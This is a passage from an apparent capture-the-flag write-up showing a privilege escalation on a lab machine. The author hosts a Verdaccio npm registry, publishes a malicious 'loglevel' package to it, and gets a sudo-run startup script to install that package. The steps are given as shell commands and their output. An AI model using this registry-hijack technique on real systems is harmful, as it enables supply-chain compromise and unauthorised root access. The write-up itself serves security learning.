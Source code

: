 ```

oxdf@hacky$ sudo docker run -it --rm --name verdaccio -p 4873:4873 -e 'VERDACCIO_PUBLIC_URL=http://10.10.14.6' verdaccio/verdaccio
 warn --- config file  - /verdaccio/conf/config.yaml
 warn --- Plugin successfully loaded: verdaccio-htpasswd
 warn --- Plugin successfully loaded: verdaccio-audit
 warn --- http address - http://0.0.0.0:4873/ - verdaccio/5.10.2

```

#### Register Module

Now I’ll submit my module to this new registry. First I need to register:

```

oxdf@hacky$ npm adduser --registry http://10.10.14.6:4873
Username: 0xdf               
Password:                                                            
Email: (this IS public) 0xdf@0xdf.htb
Logged in as 0xdf on http://10.10.14.6:4873/.

```

Now I’ll publish the module:

```

oxdf@hacky$ npm publish --registry http://10.10.14.6:4873
npm notice 
npm notice 📦  loglevel@2.0.1
npm notice === Tarball Contents === 
npm notice 367B index.js    
npm notice 204B package.json
npm notice === Tarball Details === 
npm notice name:          loglevel                                
npm notice version:       2.0.1                                   
npm notice package size:  486 B                                   
npm notice unpacked size: 571 B                                   
npm notice shasum:        ab3dc4ab6663916a6a8a6f6852f3c9e79f4a71b4
npm notice integrity:     sha512-tY/SaAbYf7LE6[...]qLGE2/OjUBlxg==
npm notice total files:   2                                       
npm notice 
+ loglevel@2.0.1

```

#### Exploit

Now I’ll set the `.npmrc` file and the run `startup.sh`:

```

kavi@seventeen:~$ sudo /opt/app/startup.sh 
[sudo] password for kavi: 
[=] Checking for db-logger
[+] db-logger already installed
[=] Checking for loglevel
[+] Installing loglevel
/opt/app
├── loglevel@2.0.1 
└── mysql@2.18.1 

npm WARN enoent ENOENT: no such file or directory, open '/opt/app/package.json'
npm WARN app No description
npm WARN app No repository field.
npm WARN app No README data
```